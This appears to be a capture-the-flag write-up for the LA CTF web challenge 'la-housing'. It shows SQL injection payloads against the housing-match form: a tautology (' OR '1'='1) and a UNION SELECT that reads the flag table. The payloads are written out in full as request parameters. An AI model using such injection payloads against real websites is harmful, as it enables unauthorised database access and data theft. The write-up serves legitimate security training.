



# la-housing

## Overview:

Category: Web

## Description

Portal Tips Double Dashes ("--") Please do not use double dashes in any text boxes you complete or emails you send through the portal. The portal will generate an error when it encounters an attempt to insert double dashes into the database that stores information from the portal.

Also, apologies for the very basic styling. Our unpaid LA Housing(tm) RA who we voluntold to do the website that we gave FREE HOUSING for decided to quit - we've charged them a fee for leaving, but we are stuck with this website. Sorry about that.

Please note, we do not condone any actual attacking of websites without permission, even if they explicitly state on their website that their systems are vulnerable.

la-housing.chall.lac.tf

## Approach

Opening up the website we see:



Based off of this and the program files, which include sql database information and queries, I think we are going to be dealing with sql injection.

Let's see if we can get it.

## Attack

After messing around with the request you get when clicking `Get Matches!`, we come to a sql injection success:



Here we can see `name=name&guests=No&neatness=Put+things+away+as+we+use+them&sleep=8-10pm&awake=4-6am' OR '1'='1` working for our query, where we can inject some of our own queries here `OR '1'='1`


Now based on the files given to us, we know that the flag is in its own database.

in `data.sql`:
```c
CREATE TABLE flag (
flag text
);
INSERT INTO flag VALUES("lactf{fake_flag}");
DELETE FROM sqlite_sequence;
INSERT INTO sqlite_sequence VALUES('users',750);
COMMIT;
```

So lets try and use union to grab our flag from the flag database.

After a few tries with different queries, this one `name=name&guests=No&neatness=Put+things+away+as+we+use+them&sleep=8-10pm&awake=4-6am' UNION SELECT 1, *, 3, 4, 5, 6 from 'flag` ended up returning the flag:



Therefore extracting our flag from the sql database!

## Flag

lactf{us3_s4n1t1z3d_1npu7!!!}
